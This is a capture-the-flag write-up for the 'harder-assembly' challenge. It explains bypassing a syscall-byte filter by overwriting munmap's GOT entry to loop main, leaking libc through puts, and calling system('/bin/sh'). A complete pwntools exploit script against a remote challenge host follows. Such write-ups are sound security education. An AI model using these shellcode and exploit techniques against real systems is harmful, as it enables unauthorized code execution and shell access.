 ```yaml
---
title: harder-assembly
date: 2024-04-07T14:23:28+03:00
description: Writeup for harder-assembly [Unbreakable 2024]
author: sunbather
tags:
- pwn
- asm
draft: false
---
```

___

## Challenge Description

I want the shell, but they want me to work for it, this time even harder :(

## Intuition

We receive a binary that essentially takes 15 bytes as input, checks if it contains the byte sequence ``0x0f05`` and then executes the input as shellcode. The sequence ``0x0f05`` corresponds to ``syscall``. Therefore, we can assume we have 15 bytes to get a shell, but we have to not use ``syscall`` as part of our shellcode. Somewhat cleaned-up main function below:

```c
void main(void)
{
  long lVar1;
  char *__buf;
  long in_FS_OFFSET;
  int i;
  char copy_buf [15];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  copy_buf[0] = '\0';
  copy_buf[1] = '\0';
  copy_buf[2] = '\0';
  copy_buf[3] = '\0';
  copy_buf[4] = '\0';
  copy_buf[5] = '\0';
  copy_buf[6] = '\0';
  copy_buf[7] = '\0';
  copy_buf[8] = '\0';
  copy_buf[9] = '\0';
  copy_buf[10] = '\0';
  copy_buf[11] = '\0';
  copy_buf[12] = '\0';
  copy_buf[13] = '\0';
  copy_buf[14] = '\0';
  syscall();
  __buf = (char *)mmap((void *)0x0,0xf,7,0x22,0,0);
  read(0,__buf,0xf);
  copy_buf._0_8_ = *(undefined8 *)__buf;
  copy_buf._8_4_ = *(undefined4 *)(__buf + 8);
  copy_buf._12_2_ = *(undefined2 *)(__buf + 0xc);
  copy_buf[14] = __buf[0xe];
  for (i = 0; i < 0xf; i = i + 1) {
    if ((copy_buf[i] == '\x0f') && (copy_buf[i + 1] == '\x05')) {
      puts("You are not allowed to do that.");
      exit(0);
    }
  }
  (*(code *)__buf)();
  munmap(__buf,0xf);
  if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

Usually, when you're limited in your "moves" in pwn challenges, the first step you need to think about is how to remove the limit. Therefore, our initial idea was to somehow get more than 15 bytes of shellcode running. We cannot modify the amount we are allowed to input, because it is hardcoded in the .text data, which is not writeable... We notice a call to mprotect hidden in the assembly, that makes the GOT RWX, which gives us the great idea to hijack functions from GOT:

```
004012a0 6a 0a           PUSH       0xa
004012a2 58              POP        RAX
004012a3 68 00 40        PUSH       _GLOBAL_OFFSET_TABLE_                            = 00403e20
         40 00
004012a8 5f              POP        RDI
004012a9 68 00 10        PUSH       0x1000
         00 00
004012ae 5e              POP        RSI
004012af 6a 07           PUSH       0x7
004012b1 5a              POP        RDX
004012b2 0f 05           SYSCALL
```

We can see that the only functions called after our shellcode are *munmap* and *__stack_chk_fail*. We can't trigger the stack fail, as there is no buffer overflow, so we choose to overwrite *munmap* with the address for *main*. And ta-da, we have infinite[^inf] 15 bytes shellcodes to run by returning to main in a closed loop. We overwrite munmap like so:

```asm
mov edi, 0x00404038 ; move the GOT location for munmap in rdi
mov eax, 0x0040125b ; move main address in rax
mov [rdi], rax      ; write main address to where rdi points
nop                 ; prob not necessary just wanted to pad to 15
ret                 ; ret so we don't start executing random data
```

Notice the weird random use of the 4-bytes registers edi and eax. This is because some opcodes are smaller in width when using smaller registers. So it let me use them without going over the 15 bytes limit.

Now, we can easily leak libc by printing the puts GOT address with a jump to puts from PLT:

```asm
mov rax, 0x004010a0  ; load puts addr from PLT into rax
mov edi, 0x00404018  ; load puts addr from GOT into rdi
call rax             ; call plt_puts(got_puts)
ret
```

We get the libc version with [https://libc.blukat.me/](https://libc.blukat.me/) and get the offsets to ``system`` and ``/bin/sh``. Then we just set up rdi and call ``system`` directly. We use a trick for setting up rdi before calling ``system``, which is to load ``/bin/sh`` address into r12 one _main_ iteration before. We do this because ``mov rdi, ADDR`` is bigger in width than ``mov rdi, r12`` and r12 is not changed between _main_ calls. Last two shellcodes below:
```asm
trick:
	mov r12, BIN_SH_ADDR
	ret

call_system:
	mov rdi, r12
	mov rax, SYSTEM_ADDR
	jmp rax
```

Notice the jmp to rax instead of a call. Calling ``system`` instead of jumping to it will crash it because the stack is misaligned.

## Solution

```py
#!/usr/bin/env python3

from pwn import *

context.update(arch='amd64', os='linux')

# libc6_2.35-0ubuntu3.5_amd64
system_offset = -0x300e0
bin_sh_offset = 0x157828

def inspect_payload(payload):
    print(payload, len(payload))


# overwrite munmap with main
payload = asm(
    """
    mov edi, 0x00404038
    mov eax, 0x0040125b
    mov [rdi], rax
    nop
    ret
    """
)

# leak puts addr
leak_payload = asm(
    """
    mov rax, 0x004010a0
    mov edi, 0x00404018
    call rax
    ret
    """
)


#target = process("./harder")
target = remote("34.89.210.219", 31120)

inspect_payload(payload)
target.send(payload)

inspect_payload(leak_payload)
target.send(leak_payload)
leak = u64(target.recvline().strip() + b"\x00\x00")
print(f"PUTS LEAK:{hex(leak)}")

test = asm(f"mov r12, {leak+bin_sh_offset}\nret\n")
inspect_payload(test)
target.send(test)

pwn_time = asm(f"mov rdi, r12\nmov rax, {leak+system_offset}\njmp rax\n")
inspect_payload(pwn_time)
target.send(pwn_time)

target.interactive()
```

[^inf]: Okay fine not _infinite_... We can call it as long as we don't overflow the stack segment allocated in virtual memory. Check out [this video from Laurie Wired](https://youtu.be/_6zAAhkU_Iw?si=HvPFU2ys61S6meYU) to see what I mean.
